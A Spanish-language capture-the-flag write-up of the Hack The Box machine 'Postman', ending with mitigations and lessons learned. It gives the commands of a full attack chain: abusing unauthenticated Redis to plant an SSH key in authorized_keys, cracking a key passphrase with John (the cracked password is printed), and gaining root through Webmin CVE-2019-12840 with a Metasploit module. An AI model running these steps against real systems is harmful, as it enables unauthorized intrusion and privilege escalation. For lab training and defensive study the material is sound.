# Postman

[{ .maquina-icono }](https://app.hackthebox.com/machines/Postman)

## Resumen

Máquina Linux con un **Redis 4.0.9 sin autenticación** en el puerto 6379: aprovechándolo se
escribe una clave SSH en el directorio del usuario `redis` y se obtiene acceso. Desde ahí se
encuentra en `/opt` una **clave SSH privada** de `Matt`, protegida con *passphrase*; se crackea
con **John the Ripper** y, como la contraseña está reutilizada, sirve para `su Matt` y la flag de
usuario. Para root, el puerto 10000 corre **Webmin 1.910**, vulnerable a la **CVE-2019-12840**
(ejecución de comandos como root desde el módulo *Package Updates*).

## Reconocimiento

Un ping para ver el TTL y el sistema operativo:

```
64 bytes from 10.129.2.1: icmp_seq=1 ttl=63 time=51.4 ms
```

Un TTL cercano a 64 (63) indica **Linux**.

### Enumeración de puertos

```
nmap -p- --open -T4 --min-rate 5000 10.129.2.1
```

```
22/tcp    open  ssh
80/tcp    open  http
6379/tcp  open  redis
10000/tcp open  snet-sensor-mgmt
```

Detallamos versiones:

```
nmap -p 22,80,6379,10000 -sVC -T4 --min-rate 5000 10.129.2.1
```

```
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))  | The Cyber Geek's Personal Website
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
```

Lo interesante: **Redis 4.0.9** (una base de datos clave-valor) y **Webmin 1.910** (panel de
administración) en el 10000.



## Enumeración

### Web (puerto 80)

La web del puerto 80 está "en construcción". Hago *fuzzing* por si hay algo:

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.129.2.1/FUZZ -mc 200,204,301,302,307,401,403 -e .php,.html,.txt -t 100 -ac -c
```

Solo salen directorios estándar (`css`, `js`, `images`, `upload`…), nada aprovechable. El camino
está en **Redis**.

### Redis sin autenticación

Redis 4.0.9 permite **conectarse sin autenticar** y leer su configuración:

```
redis-cli -h 10.129.2.1 -p 6379
CONFIG GET *
```



Consultamos dónde guarda los datos:

```
CONFIG GET dir
```



El directorio de datos es `/var/lib/redis`. La idea es apuntar Redis a la carpeta **`.ssh`** del
usuario y escribir ahí nuestra clave pública como `authorized_keys`:

```
CONFIG SET dir /var/lib/redis/.ssh
CONFIG SET dbfilename authorized_keys
```



## Explotación

Generamos un par de claves y preparamos la pública con saltos de línea por delante y por detrás
(Redis mete "basura" binaria alrededor, y así nos aseguramos de que el servidor SSH lea bien la
clave):

```
ssh-keygen -f redis_key
(echo -e "\n\n"; cat redis_key.pub; echo -e "\n\n") > key.txt
```



Introducimos la clave en Redis (que la escribe como `authorized_keys`) y guardamos:

```
cat key.txt | redis-cli -h 10.129.2.1 -x set ssh_key
# dentro de redis-cli: SAVE
```



Con la clave ya autorizada, damos permisos a la privada (`chmod 600 redis_key`) y entramos por
**SSH** como el usuario `redis`:



## Escalada de privilegios

### De redis a Matt

Listando el *home* con `ls -la` aparece un `.bash_history`:



Dentro, el historial menciona varias veces un script de Python y la lectura de
`/etc/ssh/sshd_config`:



Mirando el directorio raíz, hay una carpeta **`/opt`** (software de terceros, no estándar):



Dentro de `/opt` hay una **clave SSH privada** de `Matt` (`id_rsa.bak`), protegida con
*passphrase*.

> *No reproduzco la clave privada: una clave privada no se publica, aunque sea de una máquina
> retirada.*

Nos la llevamos a nuestra máquina con un servidor HTTP:



Extraemos el hash de la *passphrase* con `ssh2john` y lo crackeamos con **John**:

```
ssh2john id_rsa.bak > id_rsa_hash
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa_hash
```



La *passphrase* es **`computer2008`**. Como la contraseña está **reutilizada**, sirve para
cambiar al usuario `Matt` y leer la flag de usuario:

```
su Matt
# contraseña: computer2008
cat user.txt
```



```
USER FLAG -> [censurada]
```

### De Matt a root (Webmin — CVE-2019-12840)

El puerto 10000 corre **Webmin 1.910**, vulnerable a la **CVE-2019-12840**: un usuario autenticado
con acceso al módulo *Package Updates* puede ejecutar comandos arbitrarios **como root** a través
del parámetro `data` de `update.cgi`.

> **Lo que me costó:** probé primero el PoC de
> [webmin_cve-2019-12840_poc](https://github.com/KrE80r/webmin_cve-2019-12840_poc). El exploit en
> sí funciona, pero `Matt` tiene el acceso **SSH denegado** y no conseguía la *shell* de vuelta.
> Lo que sí me funcionó fue el **módulo de Metasploit** `exploit/linux/http/webmin_packageup_rce`.

```
use exploit/linux/http/webmin_packageup_rce
set RHOSTS 10.129.2.1
set RPORT 10000
set SSL true
set USERNAME Matt
set PASSWORD computer2008
run
```



Al ejecutarlo obtenemos una *shell* como **root** y leemos la flag:

```
cd /root && cat root.txt
```



```
ROOT FLAG -> [censurada]
```

## Mitigación

- **Autenticar Redis** (`requirepass`), no exponerlo a la red y ejecutarlo con un usuario sin
  permisos de escritura sobre directorios sensibles como `.ssh`.
- **No guardar claves SSH privadas** en el servidor (ni en `/opt`), y menos con *passphrases*
  débiles de diccionario. **No reutilizar** la *passphrase* como contraseña del sistema.
- **Actualizar Webmin** para cerrar la **CVE-2019-12840** y restringir quién accede al módulo
  *Package Updates*; no exponer el panel (10000) a Internet.

## Qué he aprendido

- Un **Redis sin autenticación** es crítico: `CONFIG SET dir` + `dbfilename` convierte la base de
  datos en escritura de ficheros arbitrarios, y de ahí a una clave SSH autorizada.
- Una **clave privada reutilizando la contraseña** encadena el acceso: crackeada la *passphrase*,
  sirve además para `su` al usuario.
- Cuando un **PoC no devuelve la shell** (aquí por el SSH denegado de Matt), merece la pena probar
  otra implementación del mismo CVE: el módulo de Metasploit sí funcionó.
